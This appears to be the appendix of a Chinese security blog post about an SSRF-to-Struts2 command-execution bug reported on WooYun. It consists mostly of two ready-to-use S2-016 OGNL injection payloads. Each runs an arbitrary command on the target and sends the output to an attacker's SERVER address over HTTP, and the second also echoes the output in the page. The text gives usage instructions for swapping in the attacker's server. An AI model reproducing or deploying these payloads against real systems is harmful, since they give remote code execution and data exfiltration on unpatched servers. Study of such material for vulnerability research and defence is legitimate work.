 ```
这可以说是我的SSRF处女洞, 和此文章关联的漏洞”搜狐某云服务API接口导致SSRF/手工盲打到Struts2命令执行”`http://wooyun.org/bugs/wooyun-2015-0129588`, 因为抱着学习的态度, 漏洞报告写的非常详细,而且有很多技巧在文章中没有提及. 当然也有很多YY的想法, 想拍砖的就来拍砖吧.

**附录**

使用方式: 将SERVER替换为你的Web服务地址

POC-S2-016.SSRF版 高亮：

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

```

POC-S2-016命令回显集成SSRF版 高亮：

```
redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23t%3d%23d.readLine(),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.setContentType(%27text/html%27),%23matt.getWriter().println(%23e),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

```